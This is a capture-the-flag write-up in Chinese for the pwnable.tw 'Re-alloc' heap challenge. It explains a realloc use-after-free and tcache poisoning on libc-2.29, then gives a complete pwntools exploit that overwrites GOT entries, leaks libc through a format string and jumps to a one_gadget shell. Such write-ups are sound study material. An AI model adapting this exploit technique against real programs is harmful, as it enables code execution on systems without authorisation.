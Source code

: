 ```yaml
---
title: Re-alloc
date: 2021-05-08 23:40:11
tags:
layout: default
---
```

Re-alloc in pwnable.tw
<!--more-->

# Challenge

题目非常简洁，一共三个功能：

1. realloc `创建`一个堆块
2. realloc `重新分配`一个已经存在堆块的大小
3. realloc `释放`一个堆块

存在的漏洞点有两个

1. 创建一个堆块中有个 OFF BY NULL（虽然对做题没啥用）
2. 重新分配大小中可以设置大小为0，这样就是一个UAF

题目限制

1. 只能同时控制两个chunk
2. realloc大小≤0X78

# Solution

主要就是如何利用这个UAF

显而易见的是可以将一个任意地址链入tcache，设第一次的size为 `x`  

`add(0,x) - > re(0,0) - > re(0,x-0x20,p64(0xdeadbeef))`

但是这样做 有个问题如果我们想要获得0xdeadbeef这个chunk我们需要add 2次，那么如何清除指针是一个问题，本题中出了delet功能没有其他功能可以清除指针。

delet中有两个问题

1. chunk size不能是 `x` ，否则会挡住我们想要获得的地址
2. 防止 `double free` 被检查到

在libc-2.29中防止double free被检查的方法有两个，修改chunk size 或者修改key。

本题中前者比较好用，因为realloc有切割功能，只要通过第二个功能就可以修改chunk的大小。

所以我们的思路是

1. UAF 将需要控制的地址链入tache
2. 清空bss上指针
3. 写入需要控制的地址

# EXP

```python
from pwn import *
#context.log_level='debug'
context.arch='amd64'
def cmd(c):
	p.sendlineafter("ce: ",str(c))
def add(idx,size,c="A"):
	cmd(1)
	p.sendlineafter("dex:",str(idx))
	p.sendlineafter("Size:",str(size))
	p.sendafter("Data:",c)

def re(idx,size,c="A"):
	cmd(2)
	p.sendlineafter("dex:",str(idx))
	p.sendlineafter("Size:",str(size))
	if(size>0):
		p.sendafter("Data:",c)
def free(idx):
	cmd(3)
	p.sendlineafter("dex:",str(idx))
atoll_got=0x000000000404048
printf_plt=0x401070
exit_got=0x000000000404018
#p=process('./pwn')
p=remote("chall.pwnable.tw",10106)
# LINK atoll_got in tcache
add(0,0x78,'A'*0x78)
re(0,0)
re(0,0x28,p64(atoll_got))
# GET atoll_got 
add(1,0x78)
re(1,0x58)
free(1)
add(1,0x78,p64(printf_plt))

#gdb.attach(p,'b printf')
# FORMAT STRING
free("%9$p")
base=int(p.readline()[:-1],16)-(0x7ffff7e53e4a-0x7ffff7dd0000)
one=0x106ef8+base

for off in range(6):
	free("%{}c%16$hn".format(0x4018+off))
	free("%{}c%20$hhn".format(one&0xff))
	one=one>>8
cmd(4)

log.warning(hex(base))
p.interactive()
```